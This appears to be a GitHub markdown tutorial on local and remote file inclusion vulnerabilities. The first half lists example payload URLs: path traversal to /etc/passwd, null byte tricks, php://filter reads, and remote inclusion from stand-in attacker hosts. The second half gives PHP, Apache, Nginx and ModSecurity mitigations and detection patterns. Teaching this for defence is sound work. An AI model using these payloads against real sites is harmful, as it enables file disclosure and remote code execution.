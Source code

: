 # File inclusion

File inclusion is a web vulnerability allowing attackers to include files on a server through a web application, potentially leading to unauthorized access, data exposure, or code execution.

## METHODS TO PEFORM FILE INCLUSION

## 1.Advanced Techniques for LFI
- ### Directory Traversal

Attackers can use directory traversal sequences (e.g., ../) to navigate the file system and include files outside the intended directory.
Example:
```text
http://example.com/page.php?file=../../etc/passwd
```
- ### Null Byte Injection

In some cases, attackers can exploit null byte (%00) injection to terminate strings in file paths, allowing them to bypass file extension checks.
Example:
```text
http://example.com/page.php?file=somefile.php%00.jpg
```
- ### Log File Inclusion

Attackers can include log files that contain user input, potentially leading to code execution if the input is malicious.
Example:
```text
http://example.com/page.php?file=/var/log/apache2/access.log
```
- ### PHP Wrapper Exploitation

Attackers can use PHP wrappers (e.g., php://filter, php://input) to read files or execute code.
Example:
```text
http://example.com/page.php?file=php://filter/convert.base64-encode/resource=index.php
```
- ### File Inclusion via Session Variables

If the application uses session variables to determine file paths, attackers can manipulate these variables to include arbitrary files.
Example:
```text
// Set session variable to include a sensitive file
$_SESSION['file'] = '../../etc/passwd';
```
## 2.Advanced Techniques for RFI
- ### Remote File Inclusion

Attackers can include files from remote servers if the application does not validate the source of the file.
Example:
```text
http://example.com/page.php?file=http://malicious.com/malicious.php
```
- ### Using Local Files as a Proxy

Attackers can host a malicious file on their server and trick the application into including it by using a local file as a proxy.
Example:
```text
http://example.com/page.php?file=http://localhost/malicious.php
```
- ### Exploiting Misconfigured Servers

If a server is misconfigured to allow file uploads, attackers can upload a malicious file and then include it.
Example:
```text
// Upload a file named malicious.php
http://example.com/upload.php?file=malicious.php
```
- ### Using Protocols

Attackers can exploit different protocols (e.g., FTP, HTTP) to include files from remote locations.
Example:
```text
http://example.com/page.php?file=ftp://attacker.com/malicious.txt
```
- ### DNS Rebinding

Attackers can use DNS rebinding to trick the application into including files from a malicious server that appears to be a trusted domain.
Example:

An attacker sets up a domain that resolves to their server and then uses it in the RFI payload.

## MITIGATION FOR FILE INCLUSION

### 1️. Use a Whitelist for Allowed Files
 Restrict file inclusion to specific files only.

🔹 Example (PHP) - Safe Whitelisting:

```text
$allowed_files = ['header.php', 'footer.php', 'sidebar.php'];
$file = $_GET['page']; // User-controlled input

if (in_array($file, $allowed_files)) {
    include $file;
} else {
    die("Access Denied");
```
Prevents attackers from including arbitrary files like /etc/passwd or ../../../../../etc/passwd.

### 2️. Avoid Direct User Input in File Paths
 Bad Example (Vulnerable to LFI & RFI)
```text
include $_GET['page']; // Allows attackers to specify any file
```
 Secure Alternative (Using a Fixed Path)
```text
$file = basename($_GET['page']); // Removes directory traversal attempts
$path = "includes/" . $file . ".php"; // Ensures file exists in a secure folder

if (file_exists($path)) {
    include $path;
} else {
    die("Invalid file!");
}
```
Ensures only pre-defined files in the includes/ directory are allowed.

### 3️. Disable allow_url_include in PHP (Prevents RFI)
If using PHP, disable remote file inclusion by setting this in php.ini:
```text
Edit
allow_url_include = Off
allow_url_fopen = Off
```
Prevents remote files from being included (e.g., http://attacker.com/shell.php).

### 4️. Implement Proper Input Validation & Sanitization
Remove dangerous characters to prevent directory traversal (../, %00, \, /, :).

🔹 Example (PHP) - Secure Input Handling
```text
$file = $_GET['page'];
$file = preg_replace('/[^a-zA-Z0-9_\-]/', '', $file); // Allow only alphanumeric, underscores, and hyphens
$path = "includes/" . $file . ".php";

if (file_exists($path)) {
    include $path;
} else {
    die("Invalid Request");
}
```
Removes special characters used in directory traversal attacks.

### 5️. Restrict File Permissions & Disable Execution
Prevent execution of uploaded files in directories like /uploads/.

🔹 For Apache (Prevent PHP Execution in Uploads Directory)
Add this to .htaccess:
```text
<Directory "/var/www/html/uploads">
    php_flag engine off
</Directory>
```
Prevents attackers from executing malicious PHP files in /uploads/.

🔹 For Nginx (Restrict PHP Execution in Uploads)
```text
location /uploads {
    location ~* \.php$ {
        deny all;
    }
}
```
Blocks execution of .php files in the /uploads directory.

### 6️. Use Secure File Handling Functions
Instead of using include, use secure file handling functions like file_get_contents() with strict validation.

🔹 Example (PHP) - Using file_get_contents Securely
```text
$allowed_files = ['about.txt', 'contact.txt'];
$file = $_GET['file'];

if (in_array($file, $allowed_files)) {
    echo file_get_contents("safe_directory/" . $file);
} else {
    die("Invalid file request");
}
```
Prevents directory traversal and limits file access.

### 7️. Monitor Logs & Set Alerts
Monitor logs for LFI & RFI attack attempts (e.g., ../../, %00, http://).

🔹 Example (Linux - Monitor Access Logs for LFI Patterns)
```text
grep -E '(\.\./|%00|http://)' /var/log/apache2/access.log
```
Helps in detecting attacks in real-time and setting alerts.

### 8️. Web Application Firewall (WAF) & ModSecurity Rules
Deploy WAF rules to block LFI & RFI patterns.

🔹 Example (ModSecurity Rules - Block LFI & RFI Patterns)
```text
SecRule REQUEST_URI "@rx (\.\./|%00|/etc/passwd)" "id:1234,deny,status:403,msg:'Possible LFI Attack'"
SecRule ARGS "@rx (https?://)" "id:1235,deny,status:403,msg:'Possible RFI Attack'"
```
Blocks common LFI & RFI attack patterns automatically.



